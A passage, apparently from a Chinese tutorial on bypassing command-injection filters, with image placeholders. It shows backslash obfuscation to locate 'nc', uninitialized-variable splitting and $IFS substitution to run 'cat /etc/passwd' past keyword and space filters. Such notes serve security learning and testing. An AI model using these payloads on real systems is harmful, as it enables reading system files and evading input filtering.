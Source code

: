 ![Alt text](40.jpg)
```
反斜杆
/b\i\n/w\h\i\c\h n\c
```
![Alt text](41.jpg)
######  技巧三：未初始化的bash变量
```
root@kali:~# echo $a

root@kali:~# echo $b

root@kali:~# echo $c

root@kali:~#
```
未初始化的变量值都是null。
```
cat$a /etc$a/passwd$a
```
![Alt text](42.jpg)
过滤空格
tab键
```
cat$IFS/etc/passwd
```